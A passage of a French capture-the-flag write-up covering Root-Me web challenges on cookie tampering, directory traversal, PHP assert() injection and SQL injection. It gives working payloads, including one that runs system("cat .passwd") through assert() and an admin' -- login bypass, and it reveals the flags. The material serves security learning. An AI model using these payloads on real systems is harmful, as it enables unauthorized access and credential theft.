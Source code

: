 ## 15. HTTP Cookies

On renseigne dans un premier temps son adresse mail dans le formulaire puis on essaie d'accéder à la liste des mails sauvegardés. Un message d'erreur s'affiche alors en nous indiquant que nous ne sommes pas admin: `You need to be admin `

En observant les cookies, on voit un nouveau cookie avec la valeur `visiteur`. En passant cette valeur à `admin`, on peut accède au flag **ml-SYMPA**.

## 16. Directory traversal

En cliquant sur les liens du menu, on observe le paramètre GET `galerie` qui prend différentes valeurs selon le menu cliqué. En passant un paramètre vide, on observe une nouvelle catégorie : `86hwnX2r`

En accédant à la catégorie `86hwnX2r` via l'URL `http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r`, on trouve un fichier `password` contenant le flag **kcb$!Bx@v4Gs9Ez**.

## 17.	PHP Assert() 

En visitant le site du challenge, on observe que le fichier PHP prend un paramètre GET `?page=flag` pour réaliser la navgitation. En se renseignant sur les attaques `LFI` / `Local File Inclusion`, on voit qu'on peut réécrire le code executé. En utilisant l'URL suivante : `http://challenge01.root-me.org/web-serveur/ch47/?page=', '0') === false and system("cat .passwd") and strpos('` et en concaténant des commandes entre les assertions, on parvient à obtenir le flag ***x4Ss3rT1nglSn0ts4f3A7A1Lx**.

```html
The flag is / Le flag est : x4Ss3rT1nglSn0ts4f3A7A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/', '0') === false and system("cat .passwd") and strpos('.php'File does not exist
```

 ## 18. SQL Injection 

On peut réaliser une injection SQL en bypassant le mot de passe grâce à la commande `--` qui termine la commande SQL.

Ainsi, en passant dans le formulaire en les datas `admin' --` et n'importe quoi dans le mot de passe, on obtient le flag **t0_W34k!$** dans le code HTML :

```html
<h2>Welcome back admin !</h2><h3>Your informations :</h3><p>- username : <input type="text" value="admin" disabled /><br/>- password : <input type="password" value="t0_W34k!$" disabled /></p><br />Hi master ! <b>To validate the challenge use this password</b>
```

En effet, les caractères `--` annulent la suite de la requête donc la requête selectionne uniquement le user admin sans utiliser le mot de passe.

## 19. 
